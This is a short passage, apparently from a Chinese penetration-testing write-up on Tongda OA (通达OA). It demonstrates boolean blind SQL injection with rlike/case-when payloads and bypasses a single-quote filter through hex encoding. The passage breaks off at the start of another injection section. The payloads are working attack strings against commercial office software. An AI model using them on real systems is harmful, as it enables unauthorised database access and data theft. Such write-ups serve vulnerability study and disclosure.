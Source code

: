 

插入sql盲注语句，下图证明存在布尔盲注

```
rlike (select (case when (1=1) then 1 else 0x28 end))
```

![image-20210409180855404](images/%E9%80%9A%E8%BE%BEOA.assets/image-20210409180855404.png)

使用手工注入，经过测试发现过滤了单引号，对r字符进行转换成16进制

```
rlike (select (case when (substr(user(),1,1)='r') then 1 else 0x28 end))
```

```
rlike (select (case when (substr(user(),1,1)=0x72) then 1 else 0x28 end))
```

![image-20210409181224477](images/%E9%80%9A%E8%BE%BEOA.assets/image-20210409181224477.png)





## SQL注入4——SORT_ID，FILE_SORT参数

payload：
